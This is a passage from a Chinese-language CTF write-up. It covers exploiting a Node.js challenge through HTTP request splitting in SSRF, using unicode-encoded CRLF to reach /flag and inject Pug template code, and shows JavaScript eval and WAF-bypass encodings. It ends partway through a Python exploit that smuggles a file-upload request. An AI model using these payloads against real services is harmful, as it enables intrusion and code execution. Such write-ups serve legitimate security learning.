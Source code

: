 然后即可。最终payload如下：

```
// [jscode] 为构造好的js语句

x%C4%A0HTTP/1.1%C4%8D%C4%8A%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0/flag%C4%A0HTTP/1.1%C4%8D%C4%8Aadminauth:%C4%A0secretpassword%C4%8D%C4%8Apug:%C4%A0%C4%A3{[jscode]}%C4%8D%C4%8A%C4%8D%C4%8A
```

赛后看了一下主办方的wp，发现js这里编码很简单。自己搞的有点复杂了。字符太多了。学到了一个新姿势
```js

// 如下语法，可以当做eval使用。 
[].constructor.constructor("evalcode")()

// js中.和[]可以替换
[]["constructor"]["constructor"]("evalcode")()

// 在js中，字符串中，可以采用 \八进制数值
[]["\143\157\156\163\164\162\165\143\164\157\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("evalcode")()
```

所以我们可以通过以上编码来进行绕过。此时因为引号在waf中，但这个waf我们可以直接二次url编码绕过。

再有，通过wp得知，pug模板不止`#{}`一种方式，还可以直接`- code`。

至此，本题所有知识点都已经介绍完。学到了很多新姿势。

![](http://img.5am3.com/5am3/img/20200210123701.png)


##  自己出的 - node game

最近恰逢永信举办公益赛，出题没有太好的思路，恰好这两天比赛学到了点好玩的。

在比赛时，看到可以通过ssrf构造header头，便开始想了，可不可以构造上传呢？

当然是可以的，于是便有了这道题目。

在这道题目中，遇到了一个小问题，就是构造好payload后，无法正常使用。node端一直报无法获取参数、此时就很迷。
最后解决方式，是通过wireshark抓取loopback数据包，可以看到以下情况。

![](http://img.5am3.com/5am3/img/20200211224328.png)

我们可以发现有些字符依旧是url编码。我们需要将它再重编码一下。
最后可得正确payload。
```python
# exp.py

import requests
import sys

payloadRaw = """x HTTP/1.1

POST /file_upload HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12837266501973088788260782942
Content-Length: 6279
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/?action=upload
Upgrade-Insecure-Requests: 1

```